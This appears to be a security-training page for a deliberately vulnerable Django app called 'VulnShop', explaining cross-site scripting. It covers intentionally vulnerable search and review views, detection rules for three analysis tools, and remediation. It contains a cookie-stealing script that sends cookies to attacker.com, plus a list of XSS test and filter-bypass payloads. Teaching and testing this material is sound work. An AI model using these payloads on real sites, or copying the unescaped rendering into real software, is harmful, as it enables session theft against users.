


# Cross-Site Scripting (XSS)

**Cross-Site Scripting (XSS)** is a client-side code injection attack where malicious scripts are injected into trusted websites. XSS attacks occur when an attacker uses a web application to send malicious code to a different end user.

## Overview

| Attribute | Value |
|-----------|-------|
| **CWE** | [CWE-79: Cross-site Scripting](https://cwe.mitre.org/data/definitions/79.html) |
| **OWASP** | A03:2021 - Injection |
| **Severity** | High (CVSS 6.1-8.0) |
| **Prevalence** | #1 most common web vulnerability |

## Types of XSS

### Reflected XSS

Malicious script is reflected off the web server in error messages, search results, or any response that includes input sent to the server.



### Stored XSS

Malicious script is permanently stored on the target server (database, message forum, comment field).



### DOM-based XSS

Vulnerability exists in client-side code rather than server-side code.

```javascript
// VULNERABLE: DOM XSS
document.getElementById('output').innerHTML = location.hash.substring(1);
```

## VulnShop Implementation

### Location 1: Reflected XSS in Search

**File:** `catalog/views.py:60-75`

```python
def search_results(request):
    query = request.GET.get('q', '')

    # Search products
    products = Product.objects.filter(name__icontains=query)

    # VULNERABLE: Reflected XSS
    return HttpResponse(f"""
        <html>
        <body>
            <h1>Search Results for: {query}</h1>
            <ul>
            {''.join(f'<li>{p.name}</li>' for p in products)}
            </ul>
        </body>
        </html>
    """)
```

**Attack URL:** `/catalog/search/?q=<script>alert('XSS')</script>`

**Exploit:**
```html
<script>document.location='http://attacker.com/steal?c='+document.cookie</script>
```

### Location 2: Stored XSS in Reviews

**File:** `reviews/views.py:20-40`

```python
def submit_review(request, product_id):
    if request.method == 'POST':
        content = request.POST.get('review')
        rating = request.POST.get('rating')

        # VULNERABLE: Stored XSS - saves without sanitization
        Review.objects.create(
            product_id=product_id,
            user=request.user,
            content=content,  # Unsanitized HTML
            rating=rating
        )
        return redirect('product_detail', product_id=product_id)

def product_detail(request, product_id):
    product = get_object_or_404(Product, id=product_id)
    reviews = Review.objects.filter(product=product)

    # VULNERABLE: Renders stored XSS
    return render(request, 'catalog/product.html', {
        'product': product,
        'reviews': reviews  # Contains malicious content
    })
```

**Template (vulnerable):**
```html

    <div class="review">
        {{ review.content | safe }}  <!-- VULNERABLE: safe filter -->
    </div>

```

**Stored Payload:**
```html

```

## Detection by Tool

### Pysa Detection

**Rule Code:** 5006

```python
# models/django_sinks.pysa
def django.http.response.HttpResponse.__init__(
    self,
    content: TaintSink[XSS] = ...,
    content_type = ...,
    status = ...,
    reason = ...,
    charset = ...
): ...

def django.shortcuts.render(
    request,
    template_name,
    context: TaintSink[XSS] = ...,
    content_type = ...,
    status = ...,
    using = ...
): ...
```

### CodeQL Detection

**Query:** `xss-reflected.ql`

```ql
class ReflectedXssConfig extends TaintTracking::Configuration {
  ReflectedXssConfig() { this = "ReflectedXssConfig" }

  override predicate isSource(DataFlow::Node source) {
    source instanceof RemoteFlowSource
  }

  override predicate isSink(DataFlow::Node sink) {
    exists(Call call |
      call.getFunc().(Name).getId() = "HttpResponse" and
      sink.asExpr() = call.getArg(0)
    )
  }

  override predicate isSanitizer(DataFlow::Node node) {
    exists(Call call |
      call.getFunc().(Attribute).getName() = "escape" and
      node.asExpr() = call
    )
  }
}
```

### Semgrep Detection

**Rule:** `xss.yml`

```yaml
rules:
  - id: xss-reflected-httpresponse
    patterns:
      - pattern: HttpResponse($CONTENT, ...)
      - pattern-not: HttpResponse(..., content_type="application/json", ...)
      - pattern-not: HttpResponse(..., content_type="text/plain", ...)
    message: >
      Potential XSS: User input may be reflected in HTTP response.
      Use django.utils.html.escape() or return JSON.
    severity: ERROR
    languages: [python]

  - id: xss-django-safe-filter
    pattern: $X | safe
    message: >
      Django 'safe' filter marks content as safe HTML.
      Ensure $X is properly sanitized to prevent XSS.
    severity: WARNING
    languages: [html]
```

## Remediation

### 1. Output Encoding (Primary Defense)

```python
from django.utils.html import escape

def search_results(request):
    query = request.GET.get('q', '')

    # SAFE: HTML escape user input
    safe_query = escape(query)

    return HttpResponse(f"""
        <html>
        <body>
            <h1>Search Results for: {safe_query}</h1>
        </body>
        </html>
    """)
```

### 2. Use Django Templates (Recommended)

```python
def search_results(request):
    query = request.GET.get('q', '')
    products = Product.objects.filter(name__icontains=query)

    # SAFE: Django templates auto-escape by default
    return render(request, 'catalog/search.html', {
        'query': query,  # Auto-escaped in template
        'products': products
    })
```

```html
<!-- templates/catalog/search.html -->
<h1>Search Results for: {{ query }}</h1>  <!-- Auto-escaped -->
<ul>

    <li>{{ product.name }}</li>  <!-- Auto-escaped -->

</ul>
```

### 3. Content Security Policy

```python
# middleware.py
class CSPMiddleware:
    def __init__(self, get_response):
        self.get_response = get_response

    def __call__(self, request):
        response = self.get_response(request)
        response['Content-Security-Policy'] = (
            "default-src 'self'; "
            "script-src 'self'; "
            "style-src 'self' 'unsafe-inline'; "
            "img-src 'self' data:; "
        )
        return response
```

### 4. Sanitize Rich Text

```python
import bleach

ALLOWED_TAGS = ['p', 'br', 'strong', 'em', 'ul', 'li', 'a']
ALLOWED_ATTRS = {'a': ['href', 'title']}

def submit_review(request, product_id):
    content = request.POST.get('review')

    # SAFE: Sanitize HTML while allowing some formatting
    clean_content = bleach.clean(
        content,
        tags=ALLOWED_TAGS,
        attributes=ALLOWED_ATTRS,
        strip=True
    )

    Review.objects.create(
        product_id=product_id,
        content=clean_content,
        ...
    )
```

### 5. HttpOnly Cookies

```python
# settings.py
SESSION_COOKIE_HTTPONLY = True  # Can't be accessed by JavaScript
CSRF_COOKIE_HTTPONLY = True
```

## Detection Comparison

| Tool | Reflected | Stored | DOM-based |
|------|:---------:|:------:|:---------:|
| Pysa | ✅ | ✅ | ❌ |
| CodeQL | ✅ | ✅ | ⚠️ |
| Semgrep | ✅ | ⚠️ | ❌ |

**Note:** DOM-based XSS requires JavaScript analysis.

## XSS Contexts

### HTML Context

```html
<div>USER_INPUT</div>
<!-- Escape: &lt; &gt; &amp; -->
```

### Attribute Context

```html

<!-- Escape: &quot; &#x27; -->
```

### JavaScript Context

```html
<script>var x = 'USER_INPUT';</script>
<!-- Use JSON encoding -->
```

### URL Context

```html
<a href="USER_INPUT">Link</a>
<!-- URL encode, validate scheme -->
```

### CSS Context

```html
<div style="background: USER_INPUT">
<!-- CSS escape or blocklist -->
```

## XSS Payloads for Testing

```html
<!-- Basic -->
<script>alert('XSS')</script>

<!-- Event handlers -->

<body onload=alert('XSS')>
<svg onload=alert('XSS')>

<!-- Encoded -->


<!-- Without parentheses -->


<!-- Filter bypass -->
<ScRiPt>alert('XSS')</ScRiPt>
<script>alert(String.fromCharCode(88,83,83))</script>
```

## Testing Checklist

- [ ] Search forms
- [ ] User profile fields
- [ ] Comments/reviews
- [ ] Error messages
- [ ] URL parameters in response
- [ ] Form field values
- [ ] JSON responses rendered as HTML
- [ ] File upload names
- [ ] Email addresses

## References

- [OWASP XSS Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)
- [CWE-79](https://cwe.mitre.org/data/definitions/79.html)
- [PortSwigger XSS](https://portswigger.net/web-security/cross-site-scripting)
- [XSS Filter Evasion Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html)
